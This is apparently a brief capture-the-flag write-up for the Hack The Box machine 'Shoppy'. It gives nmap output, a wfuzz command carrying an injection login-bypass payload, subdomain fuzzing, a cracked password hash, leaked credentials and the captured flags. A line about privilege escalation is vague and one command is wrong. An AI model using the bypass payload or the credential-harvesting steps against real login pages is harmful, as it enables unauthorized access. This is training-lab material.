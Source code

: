 IP: 10.10.11.180
# Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/shoppy 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-09 23:34 EST
Nmap scan report for 10.10.11.180
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hostname: shoppy.htb

Login page at shoppy.htb/login
sql auth bypass. which can enumerate users.
```bash
wfuzz -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ'||'1==1&password=password" --hh 51 http://shoppy.htb/login
```
Found 2 valid users.
Josh and admin.

You can get the user's hashes. from the search button on the website.
josh:6ebcea65320589ca4f2f1ce039975995
Looks like a md5sum.

this cracks to remembermethisway

Check for subdomains.
```bash
wfuzz -w /usr/share/seclists/Discovery/DNS/bitquark-subdomain-top100000.txt --hh 169 -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb"
```
Result of mattermost.

This is a login page which has creds in a msg.

jaeger:Sh0ppyBest@pp!
ssh onto the box: 
User flag: `00205ca0b36ca0c118f497536ca0d354`

Check sudo -l 
cat the file.
create a new user.
```bash
su -u <username>
```
As it is a docker instance do a docker escape to root.
root flag: `981640e1702857397b42e654b62d6423`

